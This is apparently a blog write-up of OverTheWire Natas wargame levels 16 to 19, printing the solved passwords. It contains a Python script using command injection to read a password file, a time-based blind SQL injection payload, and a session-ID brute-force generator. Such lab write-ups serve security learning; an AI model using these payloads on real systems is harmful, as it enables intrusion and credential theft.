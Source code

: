 ```yaml
---
title: Wargames - Natas 1
published: true
tags: game natas
---
```


## [Level 16 -> Level 17](https://overthewire.org/wargames/natas/natas17.html)

Username: natas16
Lab URL: http://natas16.natas.labs.overthewire.org/

I have updated previwous script to get password from this level:

```
import requests
import string 

username = "natas16"
passwd = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

valid = "hacker"

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas16.natas.labs.overthewire.org/?needle=$(grep -E ^{}.* /etc/natas_webpass/natas17)hacker'.format(''.join(password)+ch)
        r = requests.get(url, auth=(username, passwd))
                
        if valid not in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))
```

password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw


## [Level 17 -> Level 18](https://overthewire.org/wargames/natas/natas18.html)

Username: natas17
Lab URL: http://natas17.natas.labs.overthewire.org/

payload: natas18" and if(substring(password,1,1)="x",sleep(5),'A')# -> if true then sleep for 5 seconds

password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

## [Level 18 -> Level 19](https://overthewire.org/wargames/natas/natas19.html)

Username: natas18
Lab URL: http://natas18.natas.labs.overthewire.org/

Brute force admin session id, you can use burp for this or write python script:

![Password](assets/natas/18/password.png)

password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## [Level 19 -> Level 20](https://overthewire.org/wargames/natas/natas20.html)

Username: natas19
Lab URL: http://natas19.natas.labs.overthewire.org/

Firsty I decode session id:

![Session id](assets/natas/19/session_id_decode.png)

So now session id is number with additioan passphrase, I has generate data to brute force it, use following script to get data:

```
for i in range(0, 2000):
    payload = '{}-admin'.format(i)
    print(payload.encode('utf-8').hex())
```

After all prepare attack in burp:

![Password](assets/natas/19/password.png)

password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
